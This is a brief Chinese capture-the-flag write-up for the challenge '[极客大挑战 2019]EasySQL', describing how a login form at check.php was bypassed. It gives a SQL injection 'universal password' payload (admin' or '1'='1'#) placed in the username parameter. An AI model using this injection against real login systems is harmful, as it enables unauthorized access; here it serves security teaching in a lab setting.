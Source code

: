 # \[极客大挑战 2019]EasySQL

## \[极客大挑战 2019]EasySQL

## wp

F12发现是向check.php使用GET提交username和password

尝试万能密码，访问`check.php?username=admin' or '1'='1'%23&password=123`，给了flag

![](<../.gitbook/assets/image (6) (1) (1).png>)
